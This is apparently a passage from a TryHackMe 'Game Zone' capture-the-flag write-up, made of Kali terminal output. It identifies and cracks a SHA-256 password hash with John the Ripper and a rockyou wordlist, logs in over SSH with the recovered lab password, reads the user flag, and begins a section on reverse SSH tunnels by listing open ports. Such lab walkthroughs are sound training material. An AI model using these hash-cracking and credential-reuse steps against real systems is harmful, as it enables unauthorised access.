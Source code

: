 ```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ hash-identifier ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

Possible Hashs:
[+] SHA-256
[+] Haval-256
```

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ john user.hash --wordlist=/opt/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 SSE2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=5
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2023-06-18 02:25) 5.000g/s 14540Kp/s 14540Kc/s 14540KC/s vivula..vero24jm
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

```bash
agent47@gamezone:~$ exit
logout
Connection to 10.10.233.188 closed.

┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ sshpass -p videogamer124 ssh -o "StrictHostKeyChecking no" agent47@10.10.233.188
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Sun Jun 18 01:37:40 2023 from 10.11.19.145
agent47@gamezone:~$ id
uid=1000(agent47) gid=1000(agent47) groups=1000(agent47),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```

## Exposing services with reverse SSH tunnels
---

```bash
agent47@gamezone:~$ ss -ltnp
State       Recv-Q Send-Q                                                           Local Address:Port                                                                          Peer Address:Port
LISTEN      0      128                                                                          *:10000                                                                                    *:*
LISTEN      0      128                                                                          *:22                                                                                       *:*
LISTEN      0      80                                                                   127.0.0.1:3306                                                                                     *:*
LISTEN      0      128                                                                         :::80                                                                                      :::*
LISTEN      0      128                                                                         :::22                                                                                      :::*
```